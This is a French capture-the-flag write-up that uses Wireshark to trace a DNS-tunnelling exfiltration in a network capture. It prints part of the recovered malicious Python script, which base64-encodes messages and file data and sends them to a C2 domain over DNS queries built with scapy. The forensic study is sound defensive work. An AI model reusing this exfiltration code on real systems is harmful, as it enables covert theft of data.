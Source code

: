 # Exfiltration

Ce challenge est décomposé en 3 étapes. Le fichier fourni est une capture réseau de 1,9 Go. Pour des raisons évidentes je ne vais pas vous le fournir, pour tous ceux qui veulent refaire le challenge : voici [une capture](./exfiltration.pcapng) de 21 Mo qui contient seulement les éléments nécessaires à la résolution.

## Exfiltration 1 - 50 pts

> Le SOC de Random Corp a detecte une  activite suspecte sur le reseau. Apparament des donnees auraient ete  exfiltres depuis le poste de Brian. Apres interrogation pas la DSI,  Brian a avoue avoir execute volontairement un programme malicieux. Retrouvez le nom du fichier malveillant qui a ete telecharge. Format du flag : H2G2{nom_du_fichier.extension}

J'ouvre le fichier avec WireShark et j'attends plusieurs minutes que ma machine ait fini de vrombir. Je n'ai jamais eu à manipuler un PCAPNG aussi gros (plus de 24h d'enregistrement et 1,3 millions de trames) ! Il va donc falloir être méthodique. Je décide d'affiche d'abord les requêtes DNS à la recherche d'un domaine douteux. L'application du filtre prend plusieurs longues secondes, il n'est pas concevable de travailler trop longtemps avec ce gros fichier. Les premières requêtes demandent l'IP de `linkedin.com`, rien de suspect. Ensuite une requête apparaît pour `monkey.bzh`. Les concepteurs du challenges sont bretons, et ce TLD est assez rare. De plus la résolution ce nom de domaine donne une adresse sur le même réseau local que l'ordinateur de la victime.

Ensuite il y a de très nombreuses requêtes du style `U3RhcnRpbmcgZXhmaWx0cmF0aW9uIG9m.IHRoZSBmaWxlIC9ob21lL0JyaWFuLy5z.ZWNyZXQvQ29uZmlkZW50aWFsLnBkZg==.monkey.bzh`, nous avons probablement trouvé par quel canal les fichiers étaient exfiltrés !

J'affiche toutes le requêtes entre `172.25.0.3` (l'adresse de la victime) et `172.25.0.2` (l'adresse de monkey.bzh). On voit une requêtes HTTP claire : `GET /the_game.py`. On affiche la réponse du serveur et on obtient le fichier Python suivant : 

```python
#!/usr/bin/env python3
# coding: utf8

from scapy.all import *
from Crypto.PublicKey import RSA
from binascii import hexlify
import base64
from random import randint
from os import listdir
from os.path import isfile, join

C2 = "monkey.bzh"

KEY = RSA.generate(4096, e=3)

def start_exfiltration(f_name: str):
    m = base64.b64encode((f"Starting exfiltration of the file {f_name}").encode())
    sr1(IP(dst=C2)/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname=format_query(m),qtype="A")),timeout=randint(1, 10))


def end_exfiltration(f_name: str):
    m = base64.b64encode(f"The file {f_name} has been extracted".encode())
    sr1(IP(dst=C2)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=format_query(m))),verbose=0,timeout=randint(1, 10))


def exfiltrate_data(message):
    m = base64.b64encode(message.encode())
    sr1(IP(dst=C2)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=format_query(m))),verbose=0,timeout=randint(1, 10))

```